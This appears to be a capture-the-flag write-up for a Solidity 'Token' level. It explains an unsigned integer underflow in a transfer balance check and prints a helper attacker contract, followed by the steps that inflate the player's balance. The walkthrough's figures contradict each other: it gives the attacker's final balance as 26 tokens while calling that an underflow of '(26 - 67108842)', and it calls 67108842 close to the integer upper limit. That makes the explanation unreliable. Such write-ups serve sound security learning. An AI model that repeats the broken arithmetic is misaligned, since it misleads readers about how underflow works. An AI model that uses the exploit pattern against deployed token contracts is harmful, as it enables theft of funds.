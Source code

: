 # Token

This attack makes use of the integer overflow or integer underflow exploit. In fact, the statement `require(balances[msg.sender] - _value >= 0);` because the calculation is happening on unsigned integers! Of course, they will always be greater than or equal to 0. Here too we needed a buddy to help us, which is the contract below:

```soliditiy
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Token {
  function transfer(address _to, uint _value) external returns (bool);
}

contract Attacker {
  Token tokenTarget;

  constructor(address _target) {
    tokenTarget = Token(_target);
  }

  function transfer(address _to, uint _value) external returns (bool) {
    return tokenTarget.transfer(_to, _value);
  }
}
```

The steps are simple:

1. We start with 20 tokens, as the task described. We send an arbitrary amount of (lets say 4) tokens to the Attacker contract.
    - Player has 16 tokens
    - Attacker has 4 tokens
2. We can now send from Attacker to the Player a HUGE amount of tokens, I sent 67108842. It is important to note that this value is a bit smaller than the upper-limit to avoid overflowing back.
    - Player has 67108858 tokens. This is equal to (16 + 67108842).
    - Attacker has 26 tokens. This is equal to (26 - 67108842) underflowed.

Why did we need the buddy attacker? Because in the code you can see that the two lines:

```solidity
balances[msg.sender] -= _value;
balances[_to] += _value;
```

cancel eachother out if both `msg.sender` and `_to` are the same.
